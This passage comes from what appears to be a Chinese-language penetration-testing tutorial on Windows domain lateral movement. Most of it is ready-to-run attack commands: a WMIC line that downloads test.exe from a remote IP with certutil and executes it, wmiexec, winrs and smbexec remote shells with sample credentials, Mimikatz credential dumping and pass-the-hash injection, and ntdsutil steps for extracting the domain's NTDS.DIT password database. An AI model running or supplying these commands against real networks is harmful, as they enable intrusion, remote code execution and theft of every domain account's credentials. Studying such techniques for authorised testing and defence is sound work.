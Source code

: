 wmic /node:186.64.10.13 /user:Administrator /password:Admin@123 process call create "cmd /c certutil.exe -urlcache -split -f http://186.64.10.13/test.exe c:/windows/temp/test.exe & c:/windows/temp/test.exe"

创建交互式 shell:

使用 py 脚本调用 WMI 来模拟 psexec 的功能，基本上 psexec 能用的地方，这个脚本也能够使用。原理就是把数据先存到一个临时文件中，在每次读取完执行结果后就自动删除。可以用来回显执行命令的结果和获取半交互式的 shell

python wmiexec.py -share admin$ administrator:password@186.64.10.13

3.2.4WinRM 远程管理服务

WinRM 指的是 Windows 远程管理服务，通过远程连接 winRM 模块可以操作 windows 命令行，默认监听端口 5985（HTTP）&5986 (HTTPS)，在 2012 以后默认开启。

执行命令：

winrs -r:http://186.64.10.13:5985 -u:Administrator -p:Admin@123.. "whoami /all"

winrs -r:http://186.64.10.13:5985 -u:Administrator -p:Admin@123.. "cmd.exe"

3.2.5SmbExec(445 端口)

smbexec 是一款基于 psexec 的域渗透测试工具，并配套 samba 工具。

Smbexec.py administrator:password@186.64.10.13 3.3Pass The Hash

PTH(pass the hash) 攻击是指攻击者可以直接通过 LM Hash(已弃用) 或 NTLM Hash 访问远程主机或服务，而不提供明文密码。在 Windows 系统中，使用 NTLM 进行身份认证，当获取用户 hash 后，可以使用 Hash 传递的方式获取访问权限。

3.3.1Mimikatz

首先登录目标机器，以管理员身份运行 mimikatz，并输入以下命令获取 administrator 账户的 ntlm hash：

Mimikatz.exe “privilege::debug” “sekurlsa::logonpasswords”

![](http://5b0988e595225.cdn.sohucs.com/images/20200314/77efe69492fa44479b6fb4f31713cbfe.jpeg)

在攻击机器上利用 mimikatz 将获取的 hash 注入到内存中，成功后用 dir 命令可以成功列出目录文件：

sekurlsa::pth /domain:. /user:Administrator /ntlm: 70be8675cd511daa9be4b8f49e829327

![](http://5b0988e595225.cdn.sohucs.com/images/20200314/141a4b49300444b390bb7470e52e61f8.jpeg)

注入成功后，可以使用 psexec、wmic、wmiexec 等实现远程执行命令。

3.4 导出域成员 Hash

域账户的用户名和 hash 密码以域数据库的形式存放在域控制器的 %SystemRoot%\ntds\NTDS.DIT 文件中。

![](http://5b0988e595225.cdn.sohucs.com/images/20200314/3df53cbe53d14a908e868177714c2bd4.jpeg)

ntdsutil.exe 是域控制器自带的域数据库管理工具，因此我们可以通过域数据库，提取出域中所有的域用户信息，在域控上依次执行如下命令，导出域数据库。

创建快照：

ntdsutil snapshot "activate instance ntds" create quit quit

加载快照：

ntdsutil snapshot "mount {72ba82f0-5805-4365-a73c-0ccd01f5ed0d}" quit quit
